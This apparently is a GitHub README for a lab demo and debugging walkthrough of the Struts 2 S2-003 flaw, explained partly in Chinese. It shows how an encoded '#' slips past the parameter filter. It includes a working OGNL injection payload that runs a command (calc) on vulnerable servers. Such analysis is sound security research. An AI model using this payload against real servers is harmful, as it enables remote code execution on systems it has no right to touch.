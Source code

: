 # S2-003 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to Struts 2.2.1 or later |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [XW-641](http://jira.opensymphony.com/browse/XW-641), [WW-2692](http://issues.apache.org/struts/browse/WW-2692) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |

## Problem

Ognl的上下文对象必须要使用#符号，Struts2虽然对#号进行过滤，但是没有考虑到编码情况，导致可以用unicode编码\u0023或者8进制\43绕过。

## Environment

| Struts2 Version | struts-2.0.11.2-all                                          |
| --------------- | ------------------------------------------------------------ |
| Server          | Tomcat 6.0.9 (Only in this version did I run payload successfully) |
| IDE             | idea 2020.1.1 ULTIMATE                                       |

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417](img/{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

## Payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

## Debug

ParameterInterceptors函数会对所有的参数先进行一系列处理，确保用户提交的参数不存在OGNL表达式，最后使用OgnlUtil.setValue()函数将参数放入valueStack中。

`xwork-2.0.5.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:91`

<img src="img/clipboard1.png" alt="clipboard1" style="zoom:150%;" />

检查参数是否存在OGNL表达式：(pattern ```[\p{Graph}&&[^,#:=]]*```)

<img src="img/clipboard2.png" alt="clipboard2" style="zoom:150%;" />

![clipboard3](img/clipboard3.png)

OgnlUtil.setValue()函数将参数放入valueStack中：

![clipboard4](img/clipboard4.png)

在检查参数的过程中，使用正则表达式匹配是否存在Graph、#等关键字，没有考虑到参数编码的情况。可以使用unicode、八进制对```#```进行编码，绕过正则表达式检查。

<img src="img/clipboard5.png" alt="clipboard5" style="zoom:150%;" />

unicode/八进制编码在expressions.get后被转换为了#：

![clipboard6](img/clipboard6.png)

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)

